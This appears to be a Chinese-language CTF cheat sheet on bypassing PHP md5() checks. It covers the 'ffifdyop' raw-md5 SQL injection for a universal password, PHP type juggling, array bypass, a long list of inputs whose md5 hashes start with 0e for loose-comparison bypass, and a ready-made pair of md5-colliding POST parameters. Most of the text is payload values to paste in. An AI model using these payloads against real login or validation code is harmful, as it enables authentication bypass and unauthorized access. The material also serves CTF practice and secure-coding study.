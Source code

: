 # 绕过md5()来构造攻击语句
> 利用值：ffifdyop
```sql
select * from 'admin' where password = md5($pass,true)
```
> 这个点的原理是 `ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个通过十六进制转字符串的前几位刚好是 'or'6，而 Mysql 刚好又会吧 hex 转成 ascii 解释，因此拼接之后的形式是 `select * from 'admin' where password=''or'6xxxxx'`，等价于 or 一个永真式，因此相当于万能密码，可以绕过 md5() 函数

# 数字与字符串之间的比较

<img src="./images/11.png" alt="">

> 上图中执行语句第一个返回的是 true ，第二个返回的是 false，因为 php 把字母开头的转化为整型时会转化为 0，前面数字后面字母的话就只取到第一个字母出现的位置之前 (如：intval('123abd45gf') 结果为 123)

# 数组绕过
> 数组绕过适用于源码中没有判断变量类型或内容，如果加上了过滤函数就不能使用了
> 常见过滤函数如下

```php
ctype_alnum ( string $text ) : bool
// 如果 text 中所有的字符全部是字母和(或者)数字，返回 TRUE 否则返回 FALSE 

is_numeric ( mixed $var ) : bool
// 如果 var 是数字和数字字符串则返回 TRUE，否则返回 FALSE
```

# 科学计数法绕过
> 绕过 `md5($val1) != md5($val2)`，它的原理为 0e 开头后面都是数字的字符串会被识别为科学记数法

```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
240610708 
0e462097431906509019562988736854
314282422 
0e990995504821699494520356953734
571579406 
0e972379832854295224118025748221
903251147 
0e174510503823932942361353209384
1110242161 
0e435874558488625891324861198103
1320830526 
0e912095958985483346995414060832
1586264293 
0e622743671155995737639662718498
2302756269 
0e250566888497473798724426794462
2427435592 
0e067696952328669732475498472343
2653531602 
0e877487522341544758028810610885
3293867441 
0e471001201303602543921144570260
3295421201 
0e703870333002232681239618856220
3465814713 
0e258631645650999664521705537122
3524854780 
0e507419062489887827087815735195
3908336290 
0e807624498959190415881248245271
4011627063 
0e485805687034439905938362701775
4775635065 
0e998212089946640967599450361168
4790555361 
0e643442214660994430134492464512
5432453531 
0e512318699085881630861890526097
5579679820 
0e877622011730221803461740184915
5585393579 
0e664357355382305805992765337023
6376552501 
0e165886706997482187870215578015
7124129977 
0e500007361044747804682122060876
7197546197 
0e915188576072469101457315675502
7656486157 
0e451569119711843337267091732412
QLTHNDT 
0e405967825401955372549139051580
QNKCDZO 
0e830400451993494058024219903391
EEIZDOI 
0e782601363539291779881938479162
TUFEPMC 
0e839407194569345277863905212547
UTIPEZQ 
0e382098788231234954670291303879
UYXFLOI 
0e552539585246568817348686838809
IHKFRNS 
0e256160682445802696926137988570
PJNPDWY 
0e291529052894702774557631701704
ABJIHVY 
0e755264355178451322893275696586
DQWRASX 
0e742373665639232907775599582643
DYAXWCA 
0e424759758842488633464374063001
GEGHBXL 
0e248776895502908863709684713578
GGHMVOE 
0e362766013028313274586933780773
GZECLQZ 
0e537612333747236407713628225676
NWWKITQ 
0e763082070976038347657360817689
NOOPCJF 
0e818888003657176127862245791911
MAUXXQC 
0e478478466848439040434801845361
MMHUWUV 
0e701732711630150438129209816536
```
> MD5 和双 MD5 以后的值都是 0e 开头的

```
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk
7r4lGXCH2Ksu2JNT3BYM
```

> 0e 开头的 md5 值也为 0e 开头：`0e215962017`

# md5 碰撞
> 利用 fastcoll 进行 md5 碰撞，生成两个字面值不同但 md5 相同的字符串

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
        die("success!);
}

Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

# 拓展链接
> [链接地址1](https://binlep.github.io/2020/02/28/%E3%80%90Web%20%E7%AC%94%E8%AE%B0%E3%80%91md5%20%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/)
> [链接地址2](https://blog.csdn.net/LYJ20010728/article/details/116779357)